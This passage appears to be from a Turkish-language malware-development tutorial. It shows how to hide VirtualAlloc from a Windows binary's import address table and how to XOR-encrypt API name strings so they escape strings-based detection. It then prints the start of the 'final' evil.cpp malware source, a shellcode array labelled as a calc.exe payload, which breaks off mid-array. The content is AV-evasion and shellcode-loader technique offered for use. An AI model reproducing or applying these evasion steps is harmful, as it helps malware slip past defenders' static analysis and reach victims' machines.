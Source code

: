 Sonra bunu derleyelim. Ve tekrar import address table'ına bakalım:     

```bash
objdump -x -D evil.exe | less
```

![pvirtualalloc import address table](./images/3/2021-09-06_17-27.png){width="80%"}    

Bu yüzden import address table'ında `VirtualAlloc` yok.    

Görünüşe göre her şey iyi. Ancak bir uyarı var. Binaries'imizden tüm string'leri çıkarmaya çalıştığımızda, `VirtualAlloc` string'inin hâlâ orada olduğunu göreceğiz. Bunu yapalım. Şu komutu çalıştırın:     

So no `VirtualAlloc` in import address table.
Looks good. But, there is a caveat. When we try to extract all the strings from the our binary we will see that `VirtualAlloc` string is still there. Let's do it.
run:   

```bash
strings -n 8 evil.exe
```

![strings evil](./images/3/2021-09-06_17-30.png){width="80%"}    

Gördüğünüz gibi burada. Sebebi, `GetProcAddress` çağırırken stream'i açık metin olarak kullanmamızdır.     

Peki, bununla ilgili ne yapabiliriz?     
Çözüm, bunu kaldırmaktır. Daha önce kullandığımız XOR fonksiyonunu şifreleme/şifre çözme için kullanabiliriz, o zaman bunu yapalım.    
İlk olarak, XOR fonksiyonunu `evil.cpp` malware kaynak kodumuza ekleyelim:   

![add XOR](./images/3/2021-09-06_17-35.png){width="80%"}    

Bunun için şifreleme anahtarına ve bazı dizelere ihtiyacımız olacak. Ve diyelim ki dizemiz `cVirtualAlloc` olacak, o zaman kodumuzu şu şekilde değiştirelim:    

![add key](./images/3/2021-09-07_01-09.png){width="80%"}    

XOR şifre çözme fonksiyonunu ekleyelim:     

![deXOR](./images/3/2021-09-06_17-52.png){width="80%"}    

Bizim zararlı yazımızın son hali şu şekildedir:     

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
```